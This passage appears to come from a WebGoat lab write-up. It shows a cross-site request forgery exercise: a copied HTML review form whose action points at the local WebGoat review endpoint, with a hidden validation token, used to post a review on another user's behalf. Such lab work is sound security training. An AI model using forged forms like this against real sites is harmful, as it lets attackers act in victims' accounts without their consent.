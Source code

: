![](res/A8_3.png)

**Profit!**

**4\. "Post a review on someone else’s behalf".**

This one i did pretty straight forward, or at least started the same as the previous.   
Made a copy of the form, and straight editing the "action" to point to the right site:
```html
<html>
<body>
<form class="attack-form" accept-charset="UNKNOWN" id="csrf-review" method="POST" name="review-form" successcallback="" action="http://localhost:8080/WebGoat/csrf/review">
<input class="form-control" id="reviewText" name="reviewText" placeholder="Add a Review" type="text">
<input class="form-control" id="reviewStars" name="stars" type="text">
<input type="hidden" name="validateReq" value="2aa14227b9a13d0bede0388a7fba9aa9">
<input type="submit" name="submit" value="Submit review">
</form>
</body>
</html>
```

Opening this in the browser window:   
![](res/A8_4.png)
